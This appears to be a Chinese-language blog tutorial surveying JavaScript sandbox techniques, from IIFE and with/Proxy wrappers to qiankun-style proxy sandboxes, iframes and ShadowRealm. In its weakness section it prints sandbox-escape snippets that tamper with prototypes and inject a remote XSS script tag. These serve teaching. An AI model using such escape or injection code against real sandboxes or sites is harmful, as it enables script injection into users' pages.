




## 前言

沙箱，大家应该或多或少都接触过，但有可能没太在意沙箱到底是个啥东西，沙箱是一个非常有用的安全防护机制，掌握沙箱，可以有效避免很多潜在的代码安全问题。

沙箱英文 `sandbox`，简单来说是一种安全机制，为运行中的程序提供隔离环境。通常用于执行未经测试或不受信任的程序或代码，它会为待执行的程序创建一个独立的执行环境，内部程序的执行不会影响到外部程序的运行。

[腾讯 IVWEB 团队](https://juejin.cn/post/6844903954074058760)举了一个非常形象的案例，chrome 浏览器，上个月有篇 Electron 原理中，小包探讨过 Chromium 的架构原理，浏览器会为每个标签页创建一个对应的 `RenderView`，每个标签页其实也是一个沙箱，渲染进程被沙箱隔离，网页内容通过 `IPC` 通道才能与浏览器内核进程通信。

前端中其实也有很多地方会用到沙箱:

- 在线代码编辑器，为了防止程序影响主页面，通常会把程序放在沙箱中执行，例如 [codesandbox](https://codesandbox.io/)，码上掘金等
- `jsonp` 请求的数据，第三方 `js` 的执行。如果未知其安全性，可以创建沙箱来解析数据/执行脚本
- `vue` 服务端渲染、`vue` 模板中表达式计算等
- ...

因此作为新时代前端工程师，了解沙箱，掌握沙箱，会用沙箱，还是非常必要的，本文带大家系统的学习**前端的沙箱世界**。

## 沙箱大全

前端中实现沙箱的方法有很多，各自的适应场景也有所不同，本文就挨着介绍一番，带你打通前端沙箱的任督二脉。

沙箱的实现核心点**在于制定一套程序执行机制，在这个机制下沙箱内部程序的运行不会影响外部程序运行**。这是所有沙箱实现的必备前提，但有些简陋的沙箱未必可以尽善尽美。

### IIFE

`JavaScript` 中目前有三种作用域: 全局作用域、函数作用域、`ES6` 新增的块级作用域。通过给一段代码包裹一层函数可以实现作用的隔离，这通常基于 `IIFE` 立即执行函数来实现，也被称作自执行匿名函数。使用 `IIFE`，外界不能访问函数内的变量，同时由于作用域的隔离，也不会污染全局作用域，通常用于插件和类库的开发，比如最典型的 `Jquery` 的封装模式。

```js
(function (window) {
  var jQuery = function (selector, context) {
    return new jQuery.fn.init(selector, context);
  };
  jQuery.fn = jQuery.prototype = function () {
    //原型上的方法，即所有jQuery对象都可以共享的方法和属性
  };
  jQuery.fn.init.prototype = jQuery.fn;
  window.jQeury = window.$ = jQuery; // 暴露到外部的接口
})(window);
```

但 `IIFE` 只能实现一个简易的沙箱，并不算一个独立的运行环境，虽然外部不能访问函数内部，但函数内部可以访问外部的全局变量，有污染全局的风险。

### eval

`eval()` 函数会将传入的字符串当做 `JavaScript` 代码进行执行

```js
console.log(eval("2 + 2")); // 4

const zc = eval("({name:'zc'})");
console.log(zc.name); // zc
```

`eval` 的作用域有时会让人摸不着头脑，如果你间接的使用 `eval()`，比如通过一个引用来调用它，而不是直接的调用 `eval`，它工作于全局作用域。

```js
function test() {
  var x = 2,
    y = 4;
  console.log(eval("x + y")); // 直接调用，使用本地作用域，结果是 6
  var geval = eval; // 等价于在全局作用域调用
  console.log(geval("x + y")); // 间接调用，使用全局作用域，throws ReferenceError 因为`x`未定义
  (0, eval)("x + y"); // 另一个间接调用的例子
}
test();
```

沙箱里执行的程序中访问的所有变量应该来源于沙箱环境，而非全局环境，因此最简单的想法就是给待执行程序添加一层可靠的上下文环境，沙箱的实现思路之一便是 `eval` 配合函数。

```js
// 执行上下文环境
const ctx = {
  func: (v) => {
    console.log(v);
  },
  foo: "foo",
};

function sandbox(code, ctx) {
  eval(code); // 为执行程序构造了一个函数作用域
}

// 待执行程序
const code = `
    ctx.foo = 'bar'
    ctx.func(ctx.foo)
`;

sandbox(code, ctx); // bar
```

这种方法的确可以实现沙箱，但是这要求程序中获取变量必须添加执行上下文环境前缀，这谁能受得了？有没有方法可以消除掉这个前缀？

### with

`with` 语句可以扩展一个语句的作用域链。`with` 语句是半沙箱模式，`with` 语句将某个对象添加到作用域链的顶部，如果在 `statement` 中有某个未使用命名空间的变量，跟作用域链中的某个属性同名，则这个变量将指向这个属性值。如果沒有同名的属性，则将拋出 `ReferenceError` 异常。

因此我们可以利用 `with` 将执行上下文环境作为作用域链的顶端，沙箱内部的程序执行时首先会查找执行上下文对象。

```js
function sandbox(code, ctx) {
  with (ctx) {
    // 将 ctx 添加到作用域顶端
    eval(code);
  }
}

// 待执行程序
const code = `
    foo = 'bar'
    func(foo)
`;

sandbox(code, ctx); // bar
```

这样成功省去了后缀，且实现了沙箱内程序会优先从沙箱提供的执行上下文中查找变量。但问题也出现了，由于 `with` 是半沙盒模式，因此当提供的执行上下文环境中没有找到某变量时，会沿着作用域链向上查找，有可能会对外部环境产生影响。

### with + new Function

`eval` 的副作用是非常大的，官方文档都反复声明了这一点，如果不得不用，官方表示: 存在一个非常好的 `eval` 替代方法：`window.Function`。

`Function` 相较于 `eval` 安全很多，利用 `new Function` 创建的函数不会拘束于当前作用域，默认被创建于全局环境，因此运行时只能访问全局变量和自身的局部变量。

```js
const ctx = {
  func: (v) => {
    console.log(v);
  },
  foo: "foo",
};

function sandbox(code) {
  code = "with (ctx) {" + code + "}";
  return new Function("ctx", code);
}

// 待执行程序
const code = `
    foo = 'bar'
    func(foo)
`;

sandbox(code)(ctx); // bar
```

这种方案的问题与上一种一样，当提供的执行环境对象中找不到某一变量时，会去上一级作用域链进行遍历，会对外界造成污染或影响，那有没有一种方案能阻断这一过程，只能查找存在的变量那？

### with + new Function + proxy

`Proxy` 用于修改某些操作的默认行为，等同于在语言层面做出修改，所以属于一种“元编程”（`meta programming`），即对编程语言进行编程。

`Proxy` 可以理解成，在目标对象之前架设一层**拦截**，外界对该对象的访问，都必须先通过这层拦截，因此提供了一种机制，可以对外界的访问进行过滤和改写。

`Proxy` 的拦截功能正是目前我们所需要的，不存在的变量查找我们予以拦截并抛出异常，存在的正常使用。

`get，set` 只能对存在的属性进行监听，不存在的属性则没有感知，而 `Proxy.has` 正是为属性的存在与否设置的拦截方式: `has(target, propKey)`——拦截 `propKey in proxy` 的操作，返回一个布尔值。

```js
function compileCode(code) {
  code = "with (ctx) {" + code + "}";
  return new Function("ctx", code);
}

function ctxProxy(ctx) {
  const exposeCtx = new Proxy(ctx, {
    // 拦截变量
    has(target, key) {
      // 如果不是自身属性，说明找不到该属性，未避免去上层作用域链查找，抛出异常
      if (!target.hasOwnProperty(key)) {
        throw new Error(`Invalid expression - ${key}! You can not do that!`);
      }
      return true;
    },
  });
  return exposeCtx;
}

function sandbox(code, ctx) {
  let exposeCtx = ctxProxy(ctx);
  // 将 this 也指向手动代理后的对象
  compileCode(code).call(exposeCtx, exposeCtx);
}

const ctx = {
  func: (v) => {
    console.log(v);
  },
  foo: "foo",
};
// 待执行程序
const code = `
  foo = 'bar'
  func(foo)
`;

sandbox(code, ctx); // bar
```

修改一下执行程序，看是否可以实现拦截效果。

```js
const code2 = `
  foo = 'bar'
  func(foo)
  console.log(foo)
`;
```



成功拦截了 `window` 上的 `console` 属性，但新的问题来了，`window` 上的有些属性，沙箱内的程序很可能会使用，例如 `Math` 函数、`console` 等，不讲道理的一概屏蔽既不合法理也不合情理。可以为此增设白名单，在白名单列表中的变量可以通过作用域链向上查找，不在白名单列表中的变量会继续按照上面逻辑进行判断，如果存在正常访问，不存在抛出错误。

```js
const whiteList = ["Math", "console"];
function ctxProxy(ctx) {
  const exposeCtx = new Proxy(ctx, {
    // 拦截变量
    has(target, key) {
      if (whiteList.includes(key)) {
        // 在白名单列表中，往上访问
        return target[key];
      }
      // 如果不是自身属性，说明找不到该属性，未避免去上层作用域链查找，抛出异常
      if (!target.hasOwnProperty(key)) {
        throw new Error(`Invalid expression - ${key}! You can not do that!`);
      }
      return true;
    },
  });
  return exposeCtx;
}
```

换一个稍微复杂的程序，测试一下白名单逻辑

```js
const code = `
    console.log(Math.random())
    console.log(foo)
    func(foo)
`;
```



加入白名单机制后，这种方案已经比较完善，可以适用于一些比较简单的场景，但这种方案也有比较明显的缺点。

#### 缺点一：任意使用全局变量的问题

沙箱内的有些程序可能会使用很多 `window` 上的属性，这种情况下一昧的往白名单添加属性就不太合适，但不添加就无法正常运行。

#### 缺点二：防君子不防小人 | 沙箱逃逸

沙箱保证了内部程序执行的安全运行，但总有一些处心积虑的坏人，试图摆脱这种束缚，入侵内部程序，这种行为被成为**沙箱逃逸**。

Case1：利用沙箱执行上下文中对象的某个内部属性，Proxy 只可以拦截对象的一级属性，例如下面的上下文对象，`proxy.has` 无法监听 `a.b` 的访问

```js
const ctx = {
  a: {
    b: "b",
  },
};
```

利用这个特性，就可以实现一些邪恶的东西。由于 `a.b` 属性访问无法监听，可以通过 `a.b.__proto__` 获取到对应类型原型(ctx.a.b 为 String 类型)，便可以对原型上的方法进行篡改，例如下面对 `toString` 方法的篡改就能影响到外部环境。

```js
// 可执行环境
const ctx = {
  a: {
    b: "b",
  },
};
// 编写的内部沙箱逃逸程序
const code = `
  a.b.__proto__.toString = () => {
    new (() => {}).constructor("console.log('Eascpe')")()
  };
console.log('123'.toString())
`;
```

最终程序输出 `Eascpe`，可见通过 `a.b.__proto__` 成功绕开了监听，基于这种操作，不法人员就可以实现非常具备威胁的操作。

```js
const code = `
  a.b.__proto__.toString = () => {
    new (() => {}).constructor(
      "var script = document.createElement('script');
      script.src = 'http://xss.js;'
      script.type = 'text/javascript';
      document.body.appendChild(script);"
    )()
  };
```

`new Function` 创建的函数默认在全局作用域内，上面的代码字符串中，通过访问原型链的方法，篡改了原型链上的 `toString` 方法，当外部环境调用 `toString` 方法时，`xss` 脚本就会被导入，形成 `xss` 攻击。

Case2：通过原型链实现逃逸

基于原型链的方式，还有一种更简单的方案实现沙箱逃逸，那就是定义一个 `JavaScript` 对象字面量，通过该字面量沿着原型链向上查找，也可以访问到外层的原型对象，实现沙箱逃逸

```js
const code = `
  ({}).__proto__.toString = () => {}
`;
```

可见，`with + new Function + proxy` 的方法只能防君子不能防小人，安全性有待商榷，如果想提高该方案的安全性，可以对 `code` 部分做代码分析或校验，但耗时耗力，最终也很难得到十分完备安全的解决方案。

### 快照沙箱

在某些不支持 `proxy` 的低版本浏览器中，会有一种快照沙箱的实现思路，主要实现原理基于 `diff` 方式，存有两个对象 `windowSnapshot` 保存 `window` 上面的快照信息，`modifyPropsMap` 保存沙箱环境与外部环境不同的快照信息。

当沙箱激活后，将 `window` 的全部属性存储到 `windowSnapshot`，同时将 `modifyPropsMap` 存储的沙箱环境加载到 `window` 上；退出沙箱后，利用 `windowSnapshot` 恢复 `window` 环境，将发生变化的属性存储到 `modifyPropsMap`。

可见，快照沙箱的实现本质在于沙箱激活或者退出时分别通过快照的形式记录或者还原状态来实现沙箱。



```js
class snapshotSandbox {
  constructor(name) {
    this.name = name;
    this.modifyPropsMap = {}; // 存放修改的属性
    this.windowSnapshot = {};
  }
  active() {
    // 缓存active状态的沙箱
    this.windowSnapshot = {};
    // 将 window 信息快照至 windowSnapshot
    for (const item in window) {
      this.windowSnapshot[item] = window[item];
    }
    // 恢复 modifyPropsMap 中的信息
    Object.keys(this.modifyPropsMap).forEach((p) => {
      window[p] = this.modifyPropsMap[p];
    });
  }

  inactive() {
    for (const item in window) {
      // diff
      if (this.windowSnapshot[item] !== window[item]) {
        // 记录变更
        this.modifyPropsMap[item] = window[item];
        // 还原window
        window[item] = this.windowSnapshot[item];
      }
    }
  }
}

const snadbox = new snapshotSandbox("沙箱");
snadbox.active(); // 激活沙箱
window.a = "1";
console.log("启动沙箱", window.a); // 1
snadbox.inactive(); //失活沙箱
console.log("关闭沙箱", window.a); // undefined
snadbox.active(); // 重新激活
console.log("激活沙箱", window.a); // 1
```

沙箱启用过程有可能会存有部分新增属性，例如案例中的 `window.a` 属性，当沙箱关闭后，经过还原后 `window.a` 值变为 `undefined`，但该属性依旧存在，污染了全局环境。

### 基于 proxy 的 legacySandbox(单例沙箱)

这种沙箱实现方案的思想类似于快照沙箱，具体实现思路是这样的，`legacySandbox` 设置了三个参数来记录全局变量，分别是记录沙箱新增的全局变量 `addedPropsMapInSandboxInSandbox`、记录沙箱更新的全局变量 `modifiedPropsOriginalValueMapInSandbox`、持续记录更新的(新增和修改的)全局变量，用于在任意时刻做 snapshot 的 `currentUpdatedPropsValueMap`。

当沙箱启动后，根据 `currentUpdatedPropsValueMap` 还原沙箱环境；沙箱关闭时，利用 `modifiedPropsOriginalValueMapInSandbox` 恢复沙箱，`addedPropsMapInSandboxInSandbox` 删除新增的全局变量，避免污染全局环境。(具体思路见下图，[图源](https://juejin.cn/post/6920110573418086413))

对于全局变量，是新增还是更新，这里就需要借助 `proxy` 的拦截进行判断区分。


```js
// 该部分来源于 qiankun 源码
// 修改 window 属性的公共方法
const setWindowProp = (prop, value, isDel) => {
  if (value === undefined || isDel) {
    delete window[prop];
  } else {
    window[prop] = value;
  }
};

class legacySandbox {
  active() {
    // 将沙箱内的更改恢复
    this.currentUpdatedPropsValueMap.forEach((v, p) => setWindowProp(p, v));
  }
  inactive() {
    // 将沙箱期间修改的属性还原为原先的属性
    this.modifiedPropsOriginalValueMapInSandbox.forEach((v, p) =>
      setWindowProp(p, v)
    );
    // 将沙箱期间新增的全局变量删除
    this.addedPropsMapInSandbox.forEach((_, p) =>
      setWindowProp(p, undefined, true)
    );
  }

  constructor(name) {
    this.name = name;
    this.proxy = null;
    // 存放新增的全局变量
    this.addedPropsMapInSandbox = new Map();
    // 存放沙箱期间更新的全局变量
    this.modifiedPropsOriginalValueMapInSandbox = new Map();
    // 存在新增和修改的全局变量，在沙箱激活的时候使用
    this.currentUpdatedPropsValueMap = new Map();

    const {
      addedPropsMapInSandbox,
      currentUpdatedPropsValueMap,
      modifiedPropsOriginalValueMapInSandbox,
    } = this;
    const rawWindow = window;
    const fakeWindow = Object.create(null);
    const proxy = new Proxy(fakeWindow, {
      set(target, prop, value) {
        if (!window.hasOwnProperty(prop)) {
          // 如果 window 没有该属性，代表发生了新增，记录到新增属性里
          addedPropsMapInSandbox.set(prop, value);
        } else if (!modifiedPropsOriginalValueMapInSandbox.has(prop)) {
          // 如果window对象有该属性，但未发生过更新，则记录该属性在 window 上的原始值，等沙箱卸载后还原全局环境
          const originalValue = window[prop];
          modifiedPropsOriginalValueMapInSandbox.set(prop, originalValue);
        }
        // 不管是新增还是更新，都是当前沙箱环境的变化
        // 记录修改属性以及修改后的值
        currentUpdatedPropsValueMap.set(prop, value);
        // 更新至全局 window 上，还是会对 window 产生一定的污染
        rawWindow[prop] = value;
        return true;
      },
      get(target, prop) {
        return window[prop];
      },
    });
    this.proxy = proxy;
  }
}

const sandBox = new legacySandbox("代理沙箱");
const proxyWindow = sandBox.proxy;
proxyWindow.a = "1";
console.log("开启沙箱", proxyWindow.a, window.a); // 开启沙箱 1 1
sandBox.inactive(); //失活沙箱
console.log("关闭沙箱", proxyWindow.a, window.a); // 关闭沙箱 undefined undefined
sandBox.active(); // 激活沙箱
console.log("激活沙箱", proxyWindow.a, window.a); // 激活沙箱 1 1
```

`legacySandbox` 对象依旧会对 `window` 进行操作，对 `window` 造成一定污染，但不会对 `window` 对象进行遍历，性能优于快照沙箱。

### 基于 proxy 的 proxySandbox(多例沙箱)

`legacySandbox` 单例沙箱还是会对 `window` 进行操作，且 `fakeWindow` 并没有发挥作用，`proxySandbox` 改进了这一点，关注点在于 `fakeWindow`，对 `fakeWindow` 进行代理。激活沙箱后，先找自己沙箱环境的 `fakeWindow` ，如果找不到，则去外部环境 `rawWindow` 进行查找；当对沙箱内部的 `window` 对象赋值的时候，会直接操作 `fakeWindow`，而不会影响到 `rawWindow`。

这种方案操作核心在于 `fakeWindow`，不会污染全局 `window`，因此可以支持多沙箱同时运行。

具体思路如下，[图源](https://juejin.cn/post/6920110573418086413)


```js
class ProxySandbox {
  active() {
    // 沙箱开启
    this.sandboxRunning = true;
  }
  inactive() {
    this.sandboxRunning = false;
  }
  constructor() {
    const rawWindow = window;
    const fakeWindow = {};
    // 代理 fakeWindow
    const proxy = new Proxy(fakeWindow, {
      set: (target, prop, value) => {
        // 只有沙箱开启的时候才操作 fakeWindow
        if (this.sandboxRunning) {
          // 对 window 的赋值，操作与 fakeWindow
          target[prop] = value;
          return true;
        }
      },
      get: (target, prop) => {
        // 先查找 fakeWindow，找不到再寻找 rawWindow
        let value = prop in target ? target[prop] : rawWindow[prop];
        return value;
      },
    });
    this.proxy = proxy;
  }
}
```

测试一下多实例沙箱是否可以正常运行。

```js
const sandbox1 = new ProxySandbox();
const sandbox2 = new ProxySandbox();
sandbox1.active();
sandbox2.active();

const proxyWin1 = sandbox1.proxy;
const proxyWin2 = sandbox2.proxy;

proxyWin1.a = 1; // 设置沙箱 1 的值
proxyWin2.a = 2; // 设置沙箱 2 的值
window.a = 3; // 设置 window 的值
console.log("沙箱1，沙箱2，外部值：", proxyWin1.a, proxyWin2.a, window.a);

sandbox1.inactive();
sandbox2.inactive();

proxyWin1.a = 11; // 设置沙箱 1 的值
proxyWin2.a = 22; // 设置沙箱 2 的值
window.a = 33; // 设置 window 的值
console.log("沙箱1，沙箱2，外部值：", proxyWin1.a, proxyWin2.a, window.a);
```


`proxySandbox` 即可以支持多个沙箱同时加载，也不会对全局 `window` 环境产生污染，是一种非常好的沙箱实现方案。

### 天然沙箱 iframe

`iframe` 标签可以创造一个独立的浏览器原生级别的运行环境，这个环境由浏览器实现了与主环境的隔离。`iframe` 中的全局对象均来源于自身，与父页面隔离开来，这可以说是老天赏饭吃。

`html5` 也为 `iframe` 增加了一个 `sandbox` 属性可以实现沙箱模式，通过给这个属性设值，可以限制 `iframe` 中能进行的操作，从而不影响父窗口的运行

因此基于 `iframe` 天生的适配性， `iframe` 是当前主流的沙箱实现方案之一。

```html
<iframe sandbox="value"></iframe>
```

但这个方案有一些限制:

- 阻止 `script` 脚本执行
- 阻止表单提交
- 阻止 `ajax` 请求发送
- 不能使用本地存储，即 `localStorage,cookie` 等
- 不能创建新的弹窗和 `window`

同时也提供了对应的配置项来解除上述限制。



接下来就可以配合 `postMessage API` 实现 `iframe` 沙箱与主页面之间的通信，成功达成沙箱效果。

> 通过 `postMessage API `传递的数据已经经过浏览器的处理，原型链被切断，因此不会出现利用原型链实现沙箱逃逸的问题。

`iframe` 并不是万能的，如果一个页面中存在多个沙箱窗口，其中一个沙箱需要于主页面共享部分全局状态，另一个沙箱需要共享另外一些全局状态。

这种情形单独使用 `iframe postMessageAPI` 与主页面通信来实现有些复杂且困难。

### ShadowRealm API

对于沙箱，`JavaScript` 正在有序的推出一个新的提案: [ShadowRealm API](https://2ality.com/2022/04/shadow-realms.html)

`ShadowRealm API` 它允许一个 `JS` 运行时创建多个高度隔离的 `JS` 运行环境（realm），每个 realm 具有独立的全局对象和内建对象。

每个 `ShadowRealm` 实例都有自己独立的运行环境，它提供了两种方法让我们来执行运行环境中的代码：

- `.evaluate()`：同步执行代码字符串，与 `eval()` 类似。
- `.importValue()`：返回一个 `Promise` 对象，异步执行代码字符串。

当前提案是特别契合于沙箱，但具体后续如何发展，还需要等该 `API` 正式发布，详细信息可以参考 [ShadowRealms – an ECMAScript proposal for a better eval()](https://2ality.com/2022/04/shadow-realms.html)

## 参考链接

https://juejin.cn/post/6920110573418086413
